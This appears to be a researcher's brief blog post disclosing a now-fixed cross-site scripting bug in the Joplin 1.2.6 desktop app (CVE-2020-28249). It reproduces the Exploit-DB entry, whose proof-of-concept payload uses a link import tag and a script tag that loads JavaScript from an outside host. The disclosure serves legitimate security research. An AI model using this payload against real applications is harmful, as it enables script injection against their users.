

Tripping Over Xss
Quite literally, tripping over XSS
While working an engagement, I was manually soft stepping through https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection and noting things as I went when all of the sudden…

This was reported to Laurent / Joplin and a fix implented in the following major version, not the most exciting finding but still a first CVE for me.
https://www.exploit-db.com/exploits/49024
# Exploit Title: Joplin 1.2.6 Cross Site Scripting
# Date: 2020-09-21
# Exploit Author: Philip Holbrook (@fhlipZero)
# Vendor Homepage: https://joplinapp.org/
# Software Link: https://github.com/laurent22/joplin/releases/tag/v1.2.6
# Version: 1.2.6
# Tested on: Windows / Mac
# CVE : CVE-2020-28249
# References:
# https://github.com/fhlip0/JopinXSS/blob/main/readme.md
# 1. Technical Details
# An XSS issue in Joplin for desktop v1.2.6 allows a link tag in a note to bypass the HTML filter
# 2. PoC
# Paste the following payload into a note:
```html
<link rel=import href="data:text/html,<script>alert(XSS)</script>
<script src="//brutelogic.com.br/1.js# </script>